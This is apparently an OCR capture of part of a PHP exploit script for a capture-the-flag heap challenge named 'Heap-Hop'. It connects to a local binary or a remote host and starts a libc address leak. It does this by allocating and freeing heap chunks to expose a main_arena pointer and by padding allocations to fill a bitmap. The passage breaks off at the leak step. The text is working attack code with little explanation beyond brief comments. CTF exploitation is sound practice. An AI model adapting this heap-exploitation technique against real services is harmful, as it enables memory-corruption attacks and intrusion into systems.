 ```php
	$size = strlen($data);
	$t->expect("Object size: ");
	$t->write("$size\n");

	$t->expect("Object id: ");
	$id = (int)$t->readLine();

	$t->expect("Object content: ");
	$t->write($data);

	$t->expectLine("Done.");
	return $id;
}

function del(Tube $t, $idx)
{
	menu($t);
	$t->write("2\n");

	$t->expect("Object id: ");
	$t->write("$idx\n");

	$t->expectLine("Done.");
}


printf("[*] Creating process\n");
$time = microtime(true);

if(LOCAL)
	$t = new Process("./run.sh ./heap");
else
	$t = new Socket(HOST, PORT);

$t->expectLine("    __  __                       __  __          ");
$t->expectLine("   / / / /__  ____ _____        / / / /___  ____ ");
$t->expectLine("  / /_/ / _ \/ __ `/ __ \______/ /_/ / __ \/ __ \\");
$t->expectLine(" / __  /  __/ /_/ / /_/ /_____/ __  / /_/ / /_/ /");
$t->expectLine("/_/ /_/\___/\__,_/ .___/     /_/ /_/\____/ .___/ ");
$t->expectLine("                /_/                     /_/      ");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");


printf("[*] Leak libc\n"); /* {{{ */
// allocate big chunk
$idx = add($t, str_repeat("a", 0x100));
assert(1 === $idx);

// guard it from being coalesced
$idx = add($t, str_repeat("b", 0x110));
assert(97 === $idx);

// free big chunk (will leak ptr to main_arena)
del($t, 1);

// allocate until bitmap[0..4] = 0xFF
$padding = str_repeat("c", 0x10);
do $idx = add($t, $padding);
while($idx < 4 * 8);

// leak main_arena
```